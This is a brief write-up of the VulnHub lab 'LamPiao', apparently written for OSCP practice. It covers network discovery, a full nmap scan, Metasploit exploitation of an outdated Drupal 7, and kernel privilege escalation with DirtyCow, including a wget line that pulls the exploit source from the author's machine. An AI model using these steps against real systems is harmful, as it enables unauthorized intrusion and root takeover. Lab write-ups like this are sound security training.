 ```yaml
---
title: WRITE-UP LamPiao
date: 2024-08-05 00:01:01 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```


# Write-Up LamPiao

## 1. Enumeration
i used netdicover to see where is my lab

```terminal
sudo netdiscover
```
![alt text](/assets/img/lampiao/lampiao_netdiscover.png)
ip: ```192.168.100.21```

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.100.21
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s

![alt text](/assets/img/lampiao/lampiao_nmap.png)

## 2. Post Exploitation
i check web using drupal7 outdate i decided exploit using ```msfconsole```
![alt text](/assets/img/lampiao/lampiao_web.png)


## 3. Privilage Escalation
after inside i using 
``` uname -a ```
and see lab using linux kernel 4.4.0-31
so i decide using dirtycow

```
wget http://myiplab/40847.cpp
```
![alt text](/assets/img/lampiao/lampiao_root.png)

complie and get the root :# simple lab GG
